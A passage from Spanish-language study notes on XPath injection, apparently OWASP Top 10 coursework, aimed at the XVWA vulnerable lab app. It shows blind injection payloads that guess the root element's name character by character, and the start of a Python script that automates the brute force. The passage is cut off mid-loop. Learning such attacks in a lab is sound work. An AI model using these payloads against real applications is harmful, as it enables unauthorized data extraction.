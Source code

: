 ### Nombre de Elemento Raíz

Ahora que se conoce la cantidad de elementos raíz y la longitud de su nombre, ahora toca descubrir el nombre de esta etiqueta

```bash
# Tomar la primer letra del nombre del primer elemento raíz
# y compararlo con un caracter
1' and substring(name(/*[1]),1,1)='C

# Tomar el nombre del primer elemento raíz y compararlo 
# con un nombre
1' and name(/*[1])='Coffees
```

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 16.png)

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 17.png)

Esto se puede automatizar con un script en Python:

- Code
    
    ```bash
    #!/bin/bash
    
    import sys, signal, requests, time, string
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!] Exiting...\n")
    	exit(1)
    
    #Ctrl+C
    signal.signal(signal.SIGINT, def_handler)
    
    #Variables globales
    main_url = "http://192.168.0.105/xvwa/vulnerabilities/xpath/"
    characters = string.ascii_letters
    
    def XPATH_RootTag():
    
    	p1 = log.progress("Iniciando proceso de fuerza bruta")
    	p2 = log.progress("Data")
    	
    	time.sleep(2)
    	
    	data = ""
    
    	for position in range(1, 8):
    		for character in characters:
    			post_data = {
    				'search': "1' and substring(name(/*[1]),%d,1)='%s" % (position, character),
    				'submit': ''
    			}
    
    			r = requests.post(main_url, data=post_data)
    			